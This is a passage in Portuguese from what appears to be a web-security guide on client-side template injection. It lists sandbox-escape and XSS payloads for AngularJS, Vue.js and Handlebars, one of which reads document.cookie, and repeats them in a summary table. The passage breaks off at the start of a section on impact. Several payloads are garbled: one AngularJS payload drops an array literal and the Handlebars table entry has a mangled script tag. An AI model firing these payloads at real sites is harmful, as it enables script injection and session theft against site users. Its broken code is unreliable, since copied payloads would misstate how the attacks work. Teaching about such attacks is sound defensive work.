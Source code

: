 ## Seção 5: Exploração Prática de CSTI

### 5.1 AngularJS: Escapando o Sandbox

- **Versões Iniciais (1.0.1-1.1.5)**:
  ```javascript
  {{constructor.constructor('alert(document.cookie)')()}}
  ```
  Acessa `Function` para executar JavaScript.

- **Versões Intermediárias (1.2.0-1.5.8)**:
  ```javascript
  {{'a'.constructor.prototype.charAt=.join; $eval('x=alert(1)');}}
  ```
  Sobrescreve protótipos para contornar o *sandbox*.

### 5.2 Vue.js: Diretivas e mXSS

- **Abuso de Diretivas**:
  ```html
  <p v-show="_c.constructor('alert(1)')()">Click Me</p>
  ```
  Usa `_c` (alias de `createElement`) para executar código.

- **Mutation XSS (mXSS)**: Parsing do Vue transforma HTML inerte em XSS ativo.

### 5.3 Handlebars: Saída Não Codificada

- **Três Chavetas**:
  ```html
  {{{<script>alert(1)</script>}}}
  ```
  Renderiza HTML sem codificação.

- **Atributos Sem Aspas**:
  ```html
  http://a.com/a.png onload=alert(1)
  ```
  Injeta atributos de evento.

**Tabela 2: Payloads de Exploração**

| Framework | Versão | Payload | Notas |
|-----------|--------|---------|-------|
| AngularJS | 1.0.1-1.1.5 | `{{constructor.constructor('alert(1)')()}}` | Acessa `Function` |
| AngularJS | 1.2.0-1.5.8 | `{{'a'.constructor.prototype.charAt=.join; $eval('x=alert(1)');}}` | Contorna *sandbox* |
| Vue.js | 2.x | `<div v-on:click="_c.constructor('alert(1)')()">` | Usa `_c` |
| Handlebars | Todas | `{{{_script_>alert(1)</script>}}}` | Requer `{{{...}}}` |

## Seção 6: Análise de Impacto e Encadeamento

### 6.1 Consequências
